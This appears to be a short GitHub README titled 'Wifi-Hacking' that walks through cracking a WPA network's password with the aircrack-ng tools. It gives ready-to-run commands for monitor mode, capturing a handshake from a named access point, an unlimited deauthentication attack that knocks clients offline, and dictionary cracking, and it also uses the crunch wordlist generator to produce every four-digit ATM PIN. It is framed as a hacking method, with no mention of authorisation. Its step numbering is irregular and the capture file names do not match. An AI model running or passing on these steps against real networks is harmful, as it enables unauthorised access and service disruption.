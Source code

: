# Wifi-Hacking
This method allows hackers to hijack any packet of data that is being transmitted between a device and a router


Wifi Hacking

Divided into 4 steps:

1. Starting the Monitoring mode on the adapter. -> 
     
         airmon-ng start wlan0


4. Discovering the available networks: 
    
       airodump-ng wlan0
6. Performing authentication (Capturing the packets) -> 

       airodump-ng -c 6 -w oneplus --bssid A2:B0:A6:79:E4:8B wlan0
8. Performing De-authentication (Once this is successful we will be able to able to see "WPA Handshake" in above step) -> 
  
        aireplay-ng -0 0 -a A2:B0:A6:79:E4:8B wlan0 
10. Cracking the password. 

        aircrack-ng -w wordlist.txt kali.cap

         
        Once the password matches we will get the correct password.


        Crunch tool comes pre-installed in Kali. 

Command: 

     crunch <min> <max> [options]

  
Example: Creating atm pins, so we know that atm pin is of 4 digits to max and min will be of 4 digits and could be anywhere between 0-9. 
  
So the command will be 
  
     "crunch 4 4 0123456789 -o<output file path>"


